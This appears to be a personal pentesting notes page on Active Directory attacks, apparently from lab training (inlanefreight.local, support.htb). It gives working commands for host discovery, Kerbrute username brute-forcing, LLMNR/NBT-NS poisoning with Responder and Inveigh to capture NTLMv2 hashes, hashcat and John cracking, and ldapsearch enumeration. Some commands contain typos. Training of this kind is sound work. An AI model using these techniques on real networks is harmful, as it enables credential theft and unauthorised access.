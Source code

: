 -----------------

### Active Directory Enum

-----------------

- External recon-: Gathering data on your target
  - ASN/IP registrars: [iana](https://iana.org),[arin](https://arin.net) for Americas,[ripe](https://www.ripe.net/) for Europe and [BGP toolkit](https://bgp.he.net/)
  - Domain Registrars-: [Domain tools](https://www.domaintools.com/),[PTR Archive](http://ptrarchive.com/) and [ICANN](https://lookup.icann.org/lookup)
  - Social Media-: Linkedin, Facebook, Twitter and News Article
  - Cloud and Dev storage places-: Github dorks, [Grayhatwarfare](https://grayhatwarfare.com/) and Google dorks
  - Breach Data Sources-: [HaveIbeenPwned](https://haveibeenpwned.com/) for breaches and [Dehashed](https://www.dehashed.com/) for corporate mails and passwords.

-------------------

### Initial Enumeration

-------------------

- Gathering hosts
- Wireshark can be used to gather hosts with the syntax below-:

```bash
sudo wireshark -E enss224 -A
```
- Tcpdump-:
```bash
sudo tcpdump -i ens224 
```

- Gather host with `fping`,Fping provides us with a similar capability as the standard ping application in that it utilizes ICMP requests and replies to reach out and interact with a host. 

```bash
fping -asgq 172.16.5.0/23
```

![image](https://github.com/user-attachments/assets/262fbd26-4d41-4f6a-9f40-ea6150894d0f)

- Nmap-:

```bash
sudo nmap -A -iL hosts.txt -oN result2
```

------------------

### Username Enumeration[Internal AD Username enum with Kerbrute]

------------------

- [Wordlist](https://github.com/insidetrust/statistically-likely-usernames) Use `jsmith.txt` and `jsmith2.txt` to brute force it
- Installing `kerbrute` [precompiled releases](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)

![image](https://github.com/user-attachments/assets/f1a525bf-74e3-4069-8177-1b327405adec)

- Syntax-:

```bash
kerbrute userenum -d <DOMAIN> --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

![image](https://github.com/user-attachments/assets/7976b616-25f6-4e37-91f6-a71c93d395fb)


----------------

### LLMNR/NBT-NS Poisoning

----------------

- After internal enumeration of the hosts and services, In this phase, we will work through two different techniques side-by-side: network poisoning and password spraying. We will perform these actions with the goal of acquiring valid cleartext credentials for a domain user account, thereby granting us a foothold in the domain to begin the next phase of enumeration from a credentialed standpoint.
- LLMNR-: port 5355
- NBT-NS: 137
- A Man-in-the-Middle attack on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts. Depending on the network, this attack may provide low-privileged or administrative level password hashes that can be cracked offline or even cleartext credentials. Though not covered in this module, these hashes can also sometimes be used to perform an SMB Relay attack to authenticate to a host or multiple hosts in the domain with administrative privileges without having to crack the password hash offline. Let's dive in!Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails
- LLMNR/NBT-NS can be used for name resolution and this is where responder comes in.We can spoof an authoritative name resolution source ( in this case, a host that's supposed to belong in the network segment ) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host.his poisoning effort is done to get the victims to communicate with our system by pretending that our rogue system knows the location of the requested host. If the requested host requires name resolution or authentication actions, we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password. The captured authentication request can also be relayed to access another host or used against a different protocol (such as LDAP) on the same host.
- Quick Explanation-:
  - A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
  - The DNS server responds, stating that this host is unknown.
  - The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
  - The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
  - The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.

- Responder-:
```bash
sudo responder -I ens224 
```
![image](https://github.com/user-attachments/assets/30273a69-842a-4b87-bb89-aca45e1d1aef)

- Cracking NTLMv2 hash with hashcat-:

```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```
- Use John the Ripper-:

```bash
john --wordlist=[] hash.txt
```

![image](https://github.com/user-attachments/assets/a0c99524-85aa-45d9-958c-c0e4610a4d03)

![image](https://github.com/user-attachments/assets/caa7ddbe-8696-4547-8d1e-6be5c31ff80a)

- Responder logs are stored in `/usr/share/responder/logs`-:

![image](https://github.com/user-attachments/assets/e0045ce3-c707-44b1-90c0-156ca1e9b165)

--------------

### Exploitng LLMNR/NBT-NS attacks with Inveigh.exe on windows

-------------

- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)-: If we end up with a Windows host as our attack box, our client provides us with a Windows box to test from, or we land on a Windows host as a local admin via another attack method and would like to look to further our access, the tool Inveigh works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.
- Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.Don't forget to run as adminstrator `powershell start powershell -v runAs`.Using Inveigh-:

```powershell
Invoke-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
![image](https://github.com/user-attachments/assets/56b17304-f7db-49e0-93a7-ba3c29d4996e)
- Captured Hashes-:

![image](https://github.com/user-attachments/assets/211c8faf-8c75-4c48-8d5c-1b475598d6e1)


- C# Inveigh Zero-:
- Usage-:
```powershell
.\Inveigh.exe
```
- We can hit the esc key to enter the console while Inveigh is running.

![image](https://github.com/user-attachments/assets/5274c331-3afc-4f79-a58a-26e952918efa)

- Hit "help" for several options-:

![image](https://github.com/user-attachments/assets/c119c284-9260-4473-a2a7-ee28272352a8)

- We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

![image](https://github.com/user-attachments/assets/52644780-7bab-4de7-8936-bad04d34d94b)![image](https://github.com/user-attachments/assets/3d593408-ec58-423d-a39f-1fd1063b8261)

- We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.

---------------

### Using ldap-search

----------------

- To filter objects, use -W "objectClass="

```bash
ldapsearch -x -H ldap://[ip] -b 'dc=support,dc=htb' -D "support\ldap" -W 'objectClass=user'
```

- All objects, use -W "objectClass=*"

![image](https://github.com/user-attachments/assets/4ad995ae-a820-4520-a17d-8c5c68fe8abe)

- Users in the directory -: `objectClass=user`

```bash
ldapsearch -x -H ldap://[ip] -b 'dc=support,dc=htb' -D "support\ldap" -W 'objectClass=user'
```

- Using ldapsearch with password stored in a file.I used `-n` to prevent newline in text file.Use `-y` to specify passwd file.

```bash
ldapsearch -x -H ldap://support.htb -b 'dc=support,dc=htb' -D "support\ldap" -W 'objectClass=user' -y passwd
```

```
echo -n "password" > passwd
chmod 600 passwd
```

![image](https://github.com/user-attachments/assets/966f7ace-f31a-49d7-bbdc-b9f715219953)

- Finding the user without -W "filter" -:

```bash
ldapsearch -x -H ldap://support.htb -b 'cn=support,cn=users,dc=support,dc=htb' -D "support\ldap" '(objectClass=user)' -y passwd
```
![image](https://github.com/user-attachments/assets/9472fa1e-9422-4dde-b5fe-ba2d4e2d46f0)

- Groups-:

```bash
ldapsearch -x -H ldap://support.htb -b 'dc=support,dc=htb' -D "support\ldap" '(objectClass=group)'
```

- Computer Accounts-:

```bash
ldapsearch -x -H ldap://support.htb -b 'dc=support,dc=htb' -D "support\ldap" '(objectClass=computer)' -y passwd
```

- Users of a group-:

```bash
ldapsearch -x -H ldap://support.htb -b 'dc=support,dc=htb' -D "support\ldap" '(sAMAccountName=*)' -y passwd
```

--------------

